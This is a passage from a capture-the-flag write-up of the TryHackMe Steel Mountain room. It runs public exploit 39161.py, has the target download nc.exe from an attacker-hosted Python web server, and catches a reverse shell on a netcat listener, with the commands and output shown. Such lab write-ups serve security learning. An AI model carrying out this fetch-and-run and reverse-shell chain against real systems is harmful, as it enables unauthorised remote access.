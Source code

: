 Step 2 - Download a stable nc.exe file from the link - [Netcat Stable](https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe). After Downloading RENAME file as nc.exe and move the file to same folder as exploit file in step 1.


Step 3 - Spawn a python webserver on port 80. (any other port , you wil have to tweak the exploit script)
Hence keep all files in single folder and initiate python server.
```bash
abhinav@ETHICALHACKX:~/ctf/thm$ ls
39161.py  nc.exe  thm.ovpn  #nc.exe is must to have here
                                                                                           
abhinav@ETHICALHACKX:~/ctf/thm$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

#below output is after executing Step 5
10.10.23.6 - - [25/Sep/2023 23:50:18] "GET /nc.exe HTTP/1.1" 200 -
10.10.23.6 - - [25/Sep/2023 23:50:18] "GET /nc.exe HTTP/1.1" 200 -
10.10.23.6 - - [25/Sep/2023 23:50:18] "GET /nc.exe HTTP/1.1" 200 -
10.10.23.6 - - [25/Sep/2023 23:50:18] "GET /nc.exe HTTP/1.1" 200 -


```

Step 4 - Initiate a netcat listner on same port(4444) as mentioned in Step 1. 

```bash
abhinav@ETHICALHACKX:~/ctf/thm$ nc -nlvp 4444
listening on [any] 4444 ...

```
Step 5 - Execute the Exploit with python2 by giving the parameters Target_hostname and Port that is 8080.

```bash
abhinav@ETHICALHACKX:~/ctf/thm$ python2.7 39161.py steelmountain.thm 8080
                                                                                           
abhinav@ETHICALHACKX:~/ctf/thm$ 
```

Here is the screenshot of terminal at Step 5, that is executing the exploit once.

![THM SteelMountain Exploit Run -1](/images/thm-steelmountain-exploit-run-1.png)

Step 6 - Run the Exploit again, repeat Step 5, now here we will get a reverse_shell in the netcat listner we setup in step 4.

```bash
abhinav@ETHICALHACKX:~/ctf/thm$ python2.7 39161.py steelmountain.thm 8080

#on The netcat Listner we have
abhinav@ETHICALHACKX:~/ctf/thm$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.14.57.81] from (UNKNOWN) [10.10.23.6] 49335
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>

```
![TryhackMe SteelMountain Initial Access](/images/tryhackme-steelmountain-exploit-2.png)
